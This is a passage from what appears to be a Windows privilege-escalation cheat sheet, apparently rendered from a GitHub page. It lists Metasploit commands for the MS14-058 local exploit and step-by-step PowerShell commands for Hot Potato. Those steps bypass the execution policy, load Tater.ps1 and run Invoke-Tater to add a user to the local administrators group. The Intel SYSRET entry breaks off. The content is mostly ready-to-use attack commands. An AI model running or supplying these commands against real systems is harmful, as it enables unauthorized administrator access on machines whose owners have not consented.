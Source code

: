 OS: Windows

Type: 0/1 Exploit

Methods:

msf \> use exploit/windows/local/ms14_058_track_popup_menu

msf exploit(ms14_058_track_popup_menu) \> set TARGET \< target-id \>

msf exploit(ms14_058_track_popup_menu) \> exploit

<a name="hot-potato"></a>
# Hot Potato

Domain: No

Local Admin: Yes

OS: Windows

Type: 0/1 Exploit

Methods:

1\.

In command prompt type: powershell.exe -nop -ep bypass

2\.

In Power Shell prompt type: Import-Module
C:\\Users\\User\\Desktop\\Tools\\Tater\\Tater.ps1

3\.

In Power Shell prompt type: Invoke-Tater -Trigger 1 -Command \"net
localgroup

administrators user /add\"

4\.

To confirm that the attack was successful, in Power Shell prompt type:

net localgroup administrators

<a name="intel-sysret"></a>
# Intel SYSRET

Domain: No

Local Admin: Yes

OS: Windows

Type: 0/1 Exploit

Methods:
